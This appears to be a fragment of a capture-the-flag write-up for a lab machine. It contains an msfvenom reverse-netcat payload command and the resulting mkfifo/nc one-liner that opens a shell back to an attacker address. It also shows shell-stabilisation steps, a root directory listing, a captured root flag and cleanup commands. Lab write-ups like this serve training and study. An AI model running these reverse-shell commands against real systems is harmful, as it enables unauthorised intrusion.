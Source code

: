 - msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.208.2 LPORT=4444
	> mkfifo /tmp/ksgcn; nc 10.10.208.2 4444 0</tmp/ksgcn | /bin/sh >/tmp/ksgcn 2>&1; rm /tmp/ksgcn

---Target---

- run payload

---Stabalisation---

'''
- python -c 'import pty;pty.spawn("/bin/bash")'
- CTRL Z
- stty raw -echo
- fg
- export TERM=xterm
'''

- cd /root
- ls -la

'''
drwx------  3 root root 4096 Sep  4  2019 .
drwxr-xr-x 23 root root 4096 Sep  4  2019 ..
lrwxrwxrwx  1 root root    9 Sep  4  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Sep  4  2019 .cache
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Sep  4  2019 root.txt
-rw-------  1 root root 5383 Sep  4  2019 .viminfo
'''

**Flag Found**
	/root/root.txt: <177b3cd8562289f37382721c28381f02>

# Cleanup #

- rm /var/tmp/id_rsa
- rm /tmp/curl
- export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH